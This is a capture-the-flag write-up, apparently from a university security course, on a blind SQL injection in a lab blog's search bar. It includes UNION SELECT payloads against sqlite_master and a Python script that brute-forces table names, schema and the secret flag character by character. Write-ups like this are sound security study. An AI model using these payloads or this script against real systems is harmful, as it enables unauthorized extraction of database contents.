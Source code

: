 # Challenge `Sometimes we are just temporarily blind` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to SQL injection

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23262`, on the search bar

- Impact: What results of exploiting this vulnerability
  - Allows the user to access hidden articles

## Steps to reproduce

1. Navigate to `http://mustard.stt.rnl.tecnico.ulisboa.pt:23262`
2. The seach executes the following query and is vulnerable to SQLi (discovered by inputting `'` with a random string following):

```sql
SELECT id, title, content FROM blog_post WHERE title LIKE '%<input>%' OR content LIKE '%input%' 
```

3. It is possible to view in the page how many returned from the query but not their content
4. We can brute-force a query like the one that follows, changing the values in the `LIKE` function in order to obtain the table names:

```SQL
' UNION SELECT tbl_name, tbl_name, tbl_name FROM sqlite_master WHERE tbl_name LIKE '<guess>%' --
```

5. A table named `super_s_sof_secrets` is found
6. We can brute-force another query to get the `CREATE` statement for this table (along with the column names):

```SQL
' UNION SELECT sql, tbl_name, tbl_name FROM sqlite_master WHERE type='table' AND name='super_s_sof_secrets' AND sql LIKE '<guess>%' --
```

7. A column named `secret` is found
8. Finally, we can get the flag by brute-forcing the final query:

```SQL
' UNION SELECT secret, secret ,secret FROM super_s_sof_secrets WHERE  secret LIKE '<guess>%' --
```

The code used was:

```py
import requests

# ' UNION SELECT tbl_name, tbl_name, tbl_name FROM sqlite_master -- 7 tabelas como no ultimo
# ' UNION SELECT tbl_name, tbl_name, tbl_name FROM secret_blog_post -- mas secret blog post mudou, ha uma tabela nova

def discover(base_url):
    valid_combinations = []
    valid_letters = 'abcdefghijklmnopqrstuvwxyz_'

    for letter in valid_letters:
        url = base_url.format(letter)
        res = requests.get(url)
        if '4' not in res.text:
            valid_combinations.append(letter)
            print(letter)

    result = ""
    while len(valid_combinations) != 0:
        new_valid_combinations = []
        for prefix in valid_combinations:
            for letter in valid_letters:
                url = base_url.format(prefix + letter)
                res = requests.get(url)
                if '4' not in res.text:
                    new_valid_combinations.append(prefix + letter)
                    result = prefix + letter
                    print(prefix + letter)
                    break
        valid_combinations = new_valid_combinations
    return result

# ' UNION SELECT tbl_name, tbl_name, tbl_name FROM sqlite_master WHERE tbl_name LIKE 'a%' --
base_url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search=%27+UNION+SELECT+tbl_name%2C+tbl_name%2C+tbl_name+FROM+sqlite_master+WHERE+tbl_name+LIKE+%27{}%25%27+--"
table_name = discover(base_url)
print("Table name: " + table_name)

# ' UNION SELECT sql, tbl_name, tbl_name FROM sqlite_master WHERE type='table' AND name='super_s_sof_secrets' AND sql LIKE 'a%' --
base_url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search=%27+UNION+SELECT+sql%2C+tbl_name%2C+tbl_name+FROM+sqlite_master+WHERE+type%3D%27table%27+AND+name%3D%27" + table_name + "%27+AND+sql+LIKE+%27{}%25%27+--"
create = discover(base_url)
print("Create statement: " + create)
column_name = "secret"

# ' UNION SELECT secret, secret ,secret FROM super_s_sof_secrets WHERE  secret LIKE 'a%' --
base_url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search=%27+UNION+SELECT+secret%2C+secret+%2Csecret+FROM+" + table_name + "+WHERE++" + column_name + "+LIKE+%27{}%25%27+--+"
secret = discover(base_url)
print("Secret: " + secret)
```